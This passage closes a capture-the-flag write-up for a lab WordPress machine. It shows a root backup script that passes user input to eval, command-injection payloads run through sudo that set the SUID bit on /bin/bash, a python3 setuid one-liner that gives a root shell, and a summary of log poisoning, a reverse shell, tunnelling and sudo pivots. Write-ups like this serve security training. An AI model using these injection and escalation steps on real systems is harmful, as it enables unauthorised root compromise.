darkRedColour="\e[38;5;124m\033[1m"

if [ $# -eq 0 ]; then
    echo -e "\n${redColour}[!] Error, debes de proporcionar un argumento.${endColour}\n\n\t${blueColour}Example:${endColour} ${greenColour}/opt/scripts/backup.sh access${endColour}\n"
    exit
fi

# Variables GLOBALES
LOG_DIR="/var/log/apache2"
BACKUP_DIR="/backup"

LOG_NAME=$1

FULL_NAME="$LOG_DIR/$LOG_NAME.log"

/usr/bin/echo "Realizando copia de $FULL_NAME en $BACKUP_DIR"
COMMAND="/usr/bin/cp $FULL_NAME $BACKUP_DIR"
eval $COMMAND
```

The constructed `COMMAND` variable was passed to `eval`, and since `LOG_NAME` came directly from user input, injecting shell metacharacters allowed arbitrary command execution as root.

**23. Verifying the Injection with whoami**

A path traversal combined with a command injection payload was tested to confirm code execution.

```bash
wpuser@d15a48d31be8:~$ sudo /opt/scripts/backup.sh "../../../tmp/adada ; whoami ;"
Realizando copia de /var/log/apache2/../../../tmp/adada ; whoami ;.log en /backup
/usr/bin/cp: missing destination file operand after '/var/log/apache2/../../../tmp/adada'
Try '/usr/bin/cp --help' for more information.
root
/opt/scripts/backup.sh: line 32: .log: command not found
```

The `whoami` output confirmed execution as `root`. The `cp` error was irrelevant.

**24. Setting the SUID Bit on /bin/bash**

The injection payload was updated to set the SUID bit on `/bin/bash`.

```bash
wpuser@d15a48d31be8:~$ sudo /opt/scripts/backup.sh "../../../tmp/adada ; chmod u+s /bin/bash ;"
Realizando copia de /var/log/apache2/../../../tmp/adada ; chmod u+s /bin/bash ;.log en /backup
/usr/bin/cp: missing destination file operand after '/var/log/apache2/../../../tmp/adada'
Try '/usr/bin/cp --help' for more information.
/opt/scripts/backup.sh: line 32: .log: command not found
wpuser@d15a48d31be8:~$ /bin/bash -p
bash-5.2# id
uid=1002(wpuser) gid=1002(wpuser) euid=0(root) groups=1002(wpuser),100(users)
bash-5.2# python3 -c 'import os;os.setuid(0);os.setgid(0);os.system("/bin/bash")'
root@d15a48d31be8:~# id
uid=0(root) gid=0(root) groups=0(root),100(users),1002(wpuser)
root@d15a48d31be8:~# su -
root@d15a48d31be8:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
d15a48d31be8
root@d15a48d31be8:~# ls -la
total 28
drwx------ 1 root root 4096 Apr 15  2025 .
drwxr-xr-x 1 root root 4096 Jul 29 09:39 ..
lrwxrwxrwx 1 root root    9 Apr 15  2025 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3127 Apr 12  2025 .bashrc
drwxr-xr-x 3 root root 4096 Apr 11  2025 .cache
drwxr-xr-x 3 root root 4096 Apr 11  2025 .local
lrwxrwxrwx 1 root root    9 Apr 15  2025 .mysql_history -> /dev/null
-rw-r--r-- 1 root root  161 Apr 22  2024 .profile
-r--r----- 1 root root   33 Apr 15  2025 root.txt
root@d15a48d31be8:~# cat root.txt 
58a[REDACTED]
```

Running `bash -p` leveraged the SUID bit to obtain an effective root shell. A `python3` one-liner then dropped real UID and GID to 0, and `su -` confirmed a clean, fully interactive root session. The root flag was captured.

---

## Attack Chain Summary
1. **Reconnaissance**: Nmap identified only port 80. The server redirected to `bicho.dl`, which was added to `/etc/hosts`. WPScan confirmed WordPress 6.6.2, identified the username `bicho`, and discovered a publicly readable debug log at `wp-content/debug.log` that recorded failed login attempts including the User-Agent header. An internal port 5000 service was discovered post-exploitation.
2. **Vulnerability Discovery**: The WordPress debug log was confirmed to log the User-Agent string verbatim. PHP code injected into the User-Agent via a failed login POST request was written to the log file, which was then fetched via curl to trigger execution.
3. **Exploitation**: Log poisoning delivered a base64-encoded bash reverse shell as `www-data`. Internal port enumeration revealed a Flask app on `127.0.0.1:5000`. Chisel tunnelled it to the attacker's machine, where the Werkzeug `/console` endpoint provided Python code execution, yielding a shell as `app`.
4. **Internal Enumeration**: As `app`, `sudo -l` revealed passwordless WP CLI access as `wpuser`. The `--exec` flag executed `system()` to run a staged reverse shell script, pivoting to `wpuser` and capturing the user flag. As `wpuser`, `sudo -l` exposed passwordless access to `/opt/scripts/backup.sh` as root.
5. **Privilege Escalation**: The backup script used `eval` on an unsanitised user argument. A path traversal payload injecting `; chmod u+s /bin/bash ;` set the SUID bit on bash. Running `bash -p` gave an effective root shell, which was fully dropped to `uid=0` via a `python3` setuid call. The root flag was captured.
